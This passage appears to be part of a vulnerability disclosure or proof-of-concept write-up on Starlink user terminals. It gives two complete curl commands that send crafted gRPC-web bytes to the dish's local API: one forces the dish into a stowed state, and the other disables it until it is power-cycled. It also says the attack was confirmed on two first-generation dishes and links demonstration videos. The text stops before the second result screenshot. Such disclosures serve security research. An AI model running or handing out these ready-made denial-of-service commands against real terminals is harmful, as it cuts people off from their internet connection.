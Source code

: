 
### Command 1: Stow

The following command sends the byte sequence `\x00\x00\x00\x00\x03\x92}\x00` to the user terminal, instructing the dish to put itself into a "stowed" state:
```bash
printf '\x00\x00\x00\x00\x03\x92}\x00' \
| curl 'http://192.168.100.1:9201/SpaceX.API.Device.Device/Handle' \
-X POST \
-H 'Accept: */*' \
-H 'Accept-Language: en-GB,en;q=0.5' \
-H 'content-type: application/grpc-web+proto' \
-H 'x-grpc-web: 1' \
--data-binary @- -v | xxd
```


### Command 2: Kill

The following command sends the byte sequence `\x00\x00\x00\x00\x03\xea>\x00` to the user terminal, causing it to enter an inoperative state in which it fails to respond to commands until physically power-cycled:
```bash
printf '\x00\x00\x00\x00\x03\xea>\x00' \
| curl 'http://192.168.100.1:9201/SpaceX.API.Device.Device/Handle' \
-X POST \
-H 'Accept: */*' \
-H 'Accept-Language: en-GB,en;q=0.5' \
-H 'content-type: application/grpc-web+proto' \
-H 'x-grpc-web: 1' \
--data-binary @- -v | xxd
```


## Proof of Concept

This attack was confirmed to work on two separate user terminals.
Both were first-generation models, with a circular dish.

A video demonstrating the end-to-end attack on a Starlink user terminal can be found at \url{https://drive.google.com/file/d/1jpUHh0J7kTSVw_FjfS18J836cpuMnOJF/view?usp=share_link}.
Similarly, the video at \url{https://drive.google.com/file/d/1zlP_wrz5ekTRm0KQegJOoyWPZHmVYFIf/view?usp=share_link} shows a screen recording of the attack.

At the end of this document, the exact shell scripts used in these experiments can be found.

Shown below are screenshots of the attack and its outcome.

The result of running the "stow" command shown above in the terminal:

![stow.png](./stow.png)

\pagebreak

The result of running the "stow" command followed by the "kill" command in the terminal:
